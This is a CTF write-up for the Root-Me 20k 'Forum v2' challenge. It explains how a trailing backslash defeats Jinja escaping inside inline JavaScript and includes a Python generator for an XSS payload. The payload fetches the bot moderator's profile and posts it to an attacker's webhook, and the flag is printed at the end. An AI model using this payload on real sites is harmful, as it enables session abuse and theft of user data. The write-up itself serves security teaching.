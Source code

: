 ```yaml
---
title: Forum v2
description: Jinja filter bypass to XSS
summary: Jinja filter bypass to XSS
date: 2025-05-12
tags:
- Web
ctf:
- Root-Me CTF 20k
draft: false
---
```


**Note**: this write up is for a challenge I created for the Root-Me 20k CTF.

> That's it, the new Root-Me forum is finally online!
>   
> It's a new version, with a new design and new features. We finally replaced SPIP with new, modern technologies! We're obviously secured against security issues, with them... Right?

The source code for this challenge is available as an attachement, with a docker compose file to run it locally. It contains two containers, one for the website itself and one that runs a bot with a moderator role that will go and check profiles every few minutes.

![](home.png)

The website itself looks like a forum. As a normal user, the only features available are registering an account, logging in, and setting your bio on your profile.

By trying to see the moderator point of view by running the challenge locally, or by simply reading the code, we can also see that the moderator has a dedicated page to see the list of profiles that changed their bio, and he has the capability to check their profile. The container running a bot is simply visiting the profiles that edited their bio every 2 minutes.

It's easy to guess that the goal of this challenge is to find an XSS to compromise the moderator user run by the bot, because of the presence of the bot, and also from the fact that the flag is located in the moderator profile, meaning the goal is to compromise it.

The first thing to try is to enter some HTML in the different fields and see what happens. We quickly see that it always seems properly sanitized, because Jinja's templates are filtering the user input for HTML content when rendering it. Tags, double quotes and single quotes are replaced with their HTML entities instead.

After some tests, if we pay attention to the dev console and we're using a Chromium based browser, we can see a JavaScript error if we enter a `\` precisely in the end of the bio field. For some reason, in Firefox, the JavaScript error isn't reported by the browser in the console, even if it's still present.

![](backslash.png)

Once we look at the origin of this error, we can see that the `\` character is indeed not escaped by Jinja, and causes the ending quote of the JavaScript code to be escaped.

![](js_issue.png)

By escaping the ending quote in this line, we may have our XSS! Therefore, the trick here is to put a `\` in the first name of our user when we create it, so that its end quote is escaped. Then, in the bio that is put in the object as well, we can actually write some JavaScript, and it will be successfully part of the code. Great!

Except the Jinja filters still prevent us from using some characters, most notably the single and double quotes. So we must create our JavaScript payload according to this limitation, but there are tons of easy workarounds for not using them. In my case, I used `String.fromCharCode()` to create the string I want from its ASCII codes.

The straightforward solution to extract the flag now would be to use the classic method of redirecting the targetted moderator user to a webhook under our control with its cookies, so that we can log in as this user. However, in this case, the cookie is **HTTP only**, so we can't access it from JavaScript with `document.cookie`. \
However, using fetch to request resources from the website will transmit the cookie in the request and therefore we can still perform actions on behalf of the user on the website. So, we will just request the moderator profile page and send the text content of the response, in which is written the flag, to our webhook. Easy!

Because it's pretty painful to write such code by hand with the characters restrictions we have, I wrote a Python script to generate my JavaScript payload with the links I want. It looks like this:

```py
#!/usr/bin/env python3

import argparse

parser = argparse.ArgumentParser(description="Generate payload for the forum v2 challenge")
parser.add_argument("website_url", help="URL of the website")
parser.add_argument("webhook_url", help="URL of the webhook to send the flag to")
args = parser.parse_args()

profile_url = args.website_url + "/profile"
webhook_url = args.webhook_url

def to_charcodes(string):
    return "String.fromCharCode(" + ",".join([str(ord(c)) for c in string]) + ")"

payload = f", a: fetch({to_charcodes(profile_url)}).then(function (r) {{ r.text().then(function (t) {{ fetch({to_charcodes(webhook_url)}, {{ method: {to_charcodes('POST')}, credentials: {to_charcodes('include')}, mode: {to_charcodes('no-cors')}, body: t }}) }}) }}) }}//"

print("Go to the website and set an account to the following:")
print("- firstname = " + "\\")
print("- bio = " + payload)
print("After a few minutes, you will receive in your webhook a POST request with the HTML of the moderator profile page, containing the flag.")
```

We just have to run it, put the values it gives in the first name / bio of our user, and wait for the bot to visit our updated profile. After a few minutes, we successfully receive the HTML content of its profile with the flag in our webhook!

![](bio.png)

Flag: `RM{j1nj4_f1lt3r5_4r3_n0t_3n0ugh!!!}`